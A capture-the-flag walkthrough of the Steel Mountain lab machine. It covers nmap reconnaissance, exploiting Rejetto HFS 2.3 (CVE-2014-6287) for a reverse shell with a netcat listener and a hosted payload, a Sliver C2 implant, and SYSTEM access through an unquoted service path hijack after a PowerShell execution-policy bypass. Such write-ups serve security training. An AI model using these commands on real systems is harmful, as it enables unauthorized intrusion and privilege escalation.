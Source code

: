 # IP
`10.10.225.227`

# Reconnaissaince

`nmap -sC -sV 10.10.225.227`
```
Nmap scan report for 10.10.225.227
Host is up (0.12s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
|_http-server-header: Microsoft-IIS/8.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=steelmountain
| Not valid before: 2023-05-11T01:49:52
|_Not valid after:  2023-11-10T01:49:52
|_ssl-date: 2023-05-12T01:52:06+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: STEELMOUNTAIN
|   NetBIOS_Domain_Name: STEELMOUNTAIN
|   NetBIOS_Computer_Name: STEELMOUNTAIN
|   DNS_Domain_Name: steelmountain
|   DNS_Computer_Name: steelmountain
|   Product_Version: 6.3.9600
|_  System_Time: 2023-05-12T01:52:03+00:00
8080/tcp  open  http               HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 021d6664721f (unknown)
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb2-time: 
|   date: 2023-05-12T01:52:01
|_  start_date: 2023-05-12T01:49:43
| smb2-security-mode: 
|   302: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

```

When we go on the website on port 80, we see an image of the name `BillHarper.png` under the "Best Employee" heading.

There is also a file server on port 8080
	If we look at the source, we can see that it is a "`Rejetto HTTP File Server`" version HFS 2.3


	We can look this up and see that there is a CVE assigned to an RCE vuln: CVE-`2014-6287`


# Exploitation

Instead of using metasploit, we can search for an exploit using `searchsploit rejetto`

We can then mirror the script with `searchsploit -m windows/remote/39161.py`

We have to modify the exploit with our own IP and port and then host an http file server on port 80 with `nc.exe` in it.

We can host the file server with `sudo python3 -m http.server 80` 

We can set up a listener with `rlwrap nc -lnvp 1337`

We can then run the exploit until we get a reverse shell: `python2 exploit.py 10.10.225.227 8080`

The user flag is in `C:\Users\bill\Desktop`


### Modifying the exploit to run a sliver payload

We can generate a payload with `generate --mtls <tun0>` and can start a listener with `mtls`. My payload is called `DIRTY_DATA.exe`

All we have to do is change `nc.exe` to the name of our payload and remove the arguments from `nc.exe` (since sliver payloads have the ip and port to call back to built-in)

This will make it easier for us to upload scripts like that of `PowerUp.ps1`


# Privilege Escalation

### PowerUp

To run ps1 scripts, we have to get into powershell. To ensure we can also run scripts, we run `powershell -ep bypass` to bypass the execution policy if it exists

We can then run `Import-Module .\PowerUp.ps1` and `Invoke-AllChecks`


Several services have an Unquoted Service Path vulnerability, but only one (`AdvancedSystemCareService9`) has permissions for us to restart it


We can go back into cmd and run `sc qc AdvancedSystemCareService9`

```

SERVICE_NAME: AdvancedSystemCareService9
        TYPE               : 110  WIN32_OWN_PROCESS (interactive)
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
        LOAD_ORDER_GROUP   : System Reserved
        TAG                : 1
        DISPLAY_NAME       : Advanced SystemCare Service 9
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

```

Here, we can see that the service is run as LocalSystem, which means if we take advantage of this and restart the service, we will have admin.

I'm going to place the same sliver payload we uploaded into `C:\Program Files (x86)\IObit\Advanced.exe`


We can then run `net stop AdvancedSystemCareService9` and `net start AdvancedSystemCareService9`

This gets us a session back on sliver as `NT Authority\SYSTEM`

The root flag is in `C:\Users\Administrator\Desktop\root.txt`